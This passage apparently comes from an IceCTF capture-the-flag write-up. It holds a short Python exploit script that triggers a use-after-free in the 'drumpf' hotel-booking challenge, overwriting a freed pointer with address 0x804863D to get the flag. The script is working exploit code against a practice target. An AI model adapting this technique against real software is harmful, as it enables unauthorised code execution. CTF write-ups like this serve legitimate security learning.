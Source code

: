 Perfect, let's do it!

```python
import struct
import socket

s = socket.create_connection( ( 'drumpf.vuln.icec.tf', 6502 ) )
print s.recv(4096)
print s.recv(4096)

for i in xrange( 4 ):
	s.send('1\n') # add suite
	print s.recv(4096)
	s.send('foo\n') # suite name
	print s.recv(4096)
	s.send('1\n') # suite number
	print s.recv(4096)
	print s.recv(4096)

s.send('3\n') # delete booking
print s.recv(4096)

s.send('2\n') # add room
print s.recv(4096)

s.send('foo\n') # room name
print s.recv(4096)
s.send('134514237\n') # room number 0x804863D
print s.recv(4096)
print s.recv(4096)

print s.send('4\n') # print booking
print repr( s.recv(4096) )
print repr( s.recv(4096) )
```

And that's it, we get the flag `IceCTF{they_can_take_our_overflows_but_they_will_never_take_our_use_after_freeeedom!}`
